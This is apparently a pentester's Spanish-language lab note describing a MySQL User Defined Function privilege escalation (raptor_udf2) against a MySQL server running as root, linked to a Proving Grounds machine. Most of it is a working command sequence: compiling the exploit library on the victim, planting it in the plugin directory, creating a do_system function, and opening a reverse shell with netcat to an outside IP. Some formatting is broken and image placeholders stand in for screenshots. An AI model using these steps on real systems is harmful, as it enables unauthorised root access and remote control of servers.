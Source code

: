 
## DESCRIPTION
This is an helper dynamic library for local privilege escalation through
 MySQL run with root privileges (very bad idea!), slightly modified to work 
 with newer versions of the open-source database. Tested on MySQL 4.1.14.
 
 See also: http://www.0xdeadbeef.info/exploits/raptor_udf.c
 
 Starting from MySQL 4.1.10a and MySQL 4.0.24, newer releases include fixes
 for the security vulnerabilities in the handling of User Defined Functions
 (UDFs) reported by Stefano Di Paola <stefano.dipaola@wisec.it>. For further
 details, please refer to:

NECESITAMOS ESTAR AUTENTICADOS Y QUE ROOT EJECUTE MYSQL

![[Pasted image 20230615192257.png]]

#### Mas información
* https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf
* LA MEJOR: https://juggernaut-sec.com/mysql-user-defined-functions/


## EXPLOITATION

1. Descargamos el exploit 
![[Pasted image 20230615192408.png]]

**!!NOTA IMPORTANTE!!**  le cambiamos el nombre al siguiente, si no dará problemas mas adelante:

```
cp 1518.c raptor_udf2.c
```

2. En la maquina victima lo compilamos

```
**gcc -g -c raptor_udf2.c  #compile the exploit code****gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc        #create the shared library (so)**
```


3. Nos autenticamos

```
mysql -u root -p

show variables like '%plugin%'; #Localizamos el path de los plugins
```

![[Pasted image 20230615192620.png]]

4. Comprobamos si la variable **_secure_file_priv_** is enabled

```
show variables like '%secure_file_priv%';
```

![[Pasted image 20230615192721.png]]

5. Nos cambiamos ala bbdd

```
use mysql;
```

6. Creamos la tabla

```
create table foo(line blob);
insert into foo values(load_file('/var/www/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

7. Confirmamos que la funcion se ha creado correctamente

```
**select * from mysql.func;**
```

8. Podemos ejecutar comandos

```
select do_system('id > /var/www/output; chown www-data www-data /var/www/output');

# REverse shell

select do_system('nc -e /bin/bash 192.168.45.198 21');
```

![[Pasted image 20230615192953.png]]
## MACHINES

* Hack The Box: 
* PG: banzai

**!!NOTA IMPORTANTE!!** 